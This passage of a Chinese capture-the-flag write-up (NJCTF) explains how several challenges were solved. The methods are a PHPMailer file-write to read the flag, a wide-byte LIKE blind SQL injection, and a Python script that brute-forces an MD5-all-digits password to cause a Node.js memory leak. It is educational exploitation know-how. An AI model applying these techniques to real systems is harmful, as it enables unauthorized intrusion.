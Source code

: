 但是比较尴尬的是没找到flag，于是探测内网，发现19存活主机，curl请求下：

[![](./img/85691/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0158ae0c632b62e18b.png)

猜测是PHPMailer漏洞，根目录不可写，存在uploads目录，但是一句话写进去无法执行，猜测做了权限设置，但是phpmailer在处理时应该是一个比较高的权限，于是写了多个文件去读，最后拿到flag：

[![](./img/85691/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01d078558d280910d9.png)

**Come On**

宽字节的like盲注，写个脚本跑就好了：

[![](./img/85691/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a2708b1f34d3102f.png)

**Chall I**

拿到题目，没有什么特别的思路，试了试nodejs反序列化命令执行也不行，在google上找了找，找到了这个[https://www.smrrd.de/nodejs-hacking-challenge-writeup.html](https://www.smrrd.de/nodejs-hacking-challenge-writeup.html)  ，几乎跟题目是一样的思路，但是问题在于原来的题目没有对password进行md5，新的题目进行了md5。

又根据

[![](./img/85691/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01d9114b3725625160.png)

于是想到寻找一个md5之后全部为数字的password，提交之后就会产生内存泄露。

脚本如下：



```
import hashlib
b='-=[],./;"abcdefghijklmnoprstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
a=""
def find(str1):
    print str1
    flag=0
    for i in hashlib.md5(str1).hexdigest():
        if i&gt;'9':
            flag=1;
            break
    if flag==0:
        print "====================================================="
        print str1
        print hashlib.md5(str1).hexdigest()
        input("success")
    if(len(str1)&gt;3):
        return
    else:
        for i in b:
            find(str1+i)
if __name__ == '__main__':
    find(a)
```

找到一个c;Iy，多次提交之后拿到flag：NJCTF{P1e45e_s3arch_th1s_s0urce_cod3_0lddriver}。

**Chall II**
